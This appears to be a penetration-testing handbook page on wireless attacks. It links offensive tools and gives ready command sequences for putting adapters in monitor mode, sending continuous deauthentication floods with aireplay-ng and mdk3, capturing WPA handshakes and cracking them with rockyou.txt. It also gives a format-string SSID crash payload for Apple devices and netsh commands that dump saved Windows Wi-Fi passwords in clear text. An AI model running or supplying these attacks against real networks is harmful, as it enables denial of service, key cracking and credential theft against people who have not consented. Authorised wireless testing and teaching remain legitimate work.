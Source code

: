 # Wireless Attacks
tag : #handbook
- [Resources](#resources)

## Table of Contents

- [Aircrack-ng](#aircrack-ng)
- [airodump-ng](#airodump-ng)
- [airmon-ng](#airmon-ng)
- [ALFA AWUS036ACH](#alfa-awus036ach)
- [Apple Wi-Fi Evil SSID](#apple-wi-fi-evil-ssid)
- [mdk3](#mdk3)
- [Microsoft Windows](#microsoft-windows)
- [Wi-Fi Example Attack](#wi-fi-example-attack)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Aircrack-ng | WiFi security auditing tools suite | https://github.com/aircrack-ng/aircrack-ng |
| airgeddon | This is a multi-use bash script for Linux systems to audit wireless networks. | https://github.com/v1s1t0r1sh3r3/airgeddon |
| EAPHammer | EAPHammer is a toolkit for performing targeted evil twin attacks against WPA2-Enterprise networks. | https://github.com/s0lst1c3/eaphammer |
| Flipper | Playground (and dump) of stuff I make or modify for the Flipper Zero | https://github.com/UberGuidoZ/Flipper |
| flipperzero-firmware | Flipper Zero Code-Grabber Firmware | https://github.com/Eng1n33r/flipperzero-firmware |
| flipperzero-firmware-wPlugins | Flipper Zero FW [ROGUEMASTER] | https://github.com/RogueMaster/flipperzero-firmware-wPlugins |
| JackIt | JackIt - Exploit Code for Mousejack Resources | https://github.com/insecurityofthings/jackit |
| OneShot | Run WPS PIN attacks (Pixie Dust, online bruteforce, PIN prediction) without monitor mode with the wpa_supplicant | https://github.com/kimocoder/OneShot |
| Pwnagotchi | (⌐■_■) - Deep Reinforcement Learning instrumenting bettercap for WiFi pwning. | https://github.com/evilsocket/pwnagotchi |
| WEF | A fully offensive framework to the 802.11 networks and protocols with different types of attacks for WPA/WPA2 and WEP, automated hash cracking, bluetooth hacking and much more. | https://github.com/D3Ext/WEF |
| Wifite | This repo is a complete re-write of wifite, a Python script for auditing wireless networks. | https://github.com/derv82/wifite2 |

## Aircrack-ng

```c
$ tshark -F pcap -r <FILE>.pcapng -w <FILE>.pcap
$ aircrack-ng -w /usr/share/wordlists/rockyou.txt <FILE>.pcap
```

## airodump-ng

```c
$ sudo airodump-ng <INTERFACE>mon
```

## airmon-ng

```c
$ sudo airmon-ng check kill
$ sudo airmon-ng start <INTERFACE>
$ sudo airmon-ng stop <INTERFACE>
```

## ALFA AWUS036ACH

```c
$ sudo apt-get install realtek-rtl88xxau-dkms
```

## Apple Wi-Fi Evil SSID

```c
%p%s%s%s%s%n
```

## iw

```c
$ iwconfig
$ iw <INTERFACE> scan
```

## mdk3

> https://github.com/charlesxsh/mdk3-master

```c
$ sudo mdk3 <INTERFACE>mon d -c <CHANNEL_NUMBER>
$ sudo mdk3 <INTERFACE>mon d <BSSID>
$ sudo mdk3 <INTERFACE>mon b <BSSID>
```

## Microsoft Windows

### Wireless Profiles

#### List Profiles

```c
PS C:\> netsh wlan show profiles
```

#### Extract Passwords

```c
PS C:\> netsh wlan show profile name="<PROFILE>" key=clear
```

#### Export Profiles

```c
PS C:\> netsh wlan export profile name="<PROFILE>" folder=C:\temp
```

## Wi-Fi Example Attack

```c
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
$ sudo airodump-ng wlan0mon
$ sudo airodump-ng -w <FILE> -c <CHANNEL> --bssid <BSSID> wlan0mon
```

```c
$ sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon
```

```c
$ aircrack-ng <FILE>.cap -w /usr/share/wordlists/rockyou.txt
```

```c
$ sudo airmon-ng stop wlan0mon
```

## wpa_supplicant

### wpa_supplicant.conf

```c
$ echo 'ctrl_interface=DIR=/var/run/wpa_supplicant GROUP=netdev
update_config=1

network={
    ssid="<SSID>"
    psk="<PSK>"
}' > /etc/wpa_supplicant.conf
```

```c
$ wpa_supplicant -B -D wext -i <INTERFACE> -c /etc/wpa_supplicant.conf
```

```c
$ ip link set <INTERFACE> up
```

```c
$ dhclient -h
```

